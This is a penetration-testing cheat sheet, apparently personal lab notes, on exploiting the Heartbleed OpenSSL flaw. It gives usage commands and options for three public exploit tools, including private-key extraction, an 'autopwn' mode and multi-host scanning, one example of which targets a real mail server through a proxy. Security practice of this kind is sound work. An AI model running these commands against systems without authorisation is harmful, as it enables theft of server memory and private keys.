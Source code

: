 ## Heartbleed

### Defribulator

https://gist.github.com/eelsivart/10174134

This is my favorite exploit script, as it shows the output with line breaks instead of in hex format.

```bash
python heartbleed.py 10.10.10.79

# Options
-p PORT
-n NUM	# Number of times to connect
-s	# Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc
-v	# Verbose
-x	# Enable hex output
-r	# Raw outfile
-a 	# ASCII outfile
-e	# Attempt to extract private key (requires gmpy module)
```

You can install gmpy for Python 1/2 with `sudo pip install gmpy`

### Sensepost Script

This script tests and exploits the vulnerability, allowing you to specify the number of times you want it to run

Generate some data in memory by loading a page of interest that will get the data you want into memory, then download and run the code found here:  https://github.com/sensepost/heartbleed-poc

```bash
python heartbleed-poc.py 10.10.10.79
```

I was able to use this to get the passphrase for a private key.

### Heartleech

NOTE:  I got different results with this program than the POC code above.  This program is good to get the private key of a webserver but that's about all I was able to do with it so far.

This program exploits the heartbleed vulnerability.  Install with apt, but this is the source page:  https://github.com/robertdavidgraham/heartleech

This tools supports HTTPS, SMTP, etc

```bash
heartleech 10.10.10.79 -fOUTFILE

# Options
-p	443	# Specify port, defaults to 443
--threads 100	# Specify the number of scan threads
-fOUTFILE  # Output file
--dump OUTFILE.bin # Output file
--ipv4 / --ipv6	# Force the IP version, defaults to IPv4
--proxy <hostname:port>	# SOCKS5N proxy support
```

#### Scanning

```bash
heartleech --scan www.site1.com www.site2.com www.site3.com site4.com

# Tests each target in a list
--scan host1 host2 ... # Scans through a list of hosts
--scanlist FILE	# Scans through targets listed in a file
	## File listing formats
    ## host:port
    ## 10.0.0.0-10.0.0.255 # IP Range
```

#### Private Certs

##### Manual

1. Get the public cert from the site:

   ```bash
   openssl s_client -showcerts -connect www.example.com:443 </dev/null
   
   # Options
   -servername www.example.com # Use this if multiple SSL hosts are served on the same IP
   ```

2. Use it to search an offline file for a private cert given a public cert

   ```bash
   heartleech --cert cloudflare.pem --read challenge.bin
   ```

##### Autopwn

Autopwn will search the output on the fly and grab the private key:

```bash
heartleech 10.10.10.79 --autopwn --threads 20
```

#### Diagnostics Mode:

```bash
heartleech --scan smtp.gmail.com:25 --proxy 10.20.30.156:9150 -d

# Options
-d	# Diagnostic switch
```
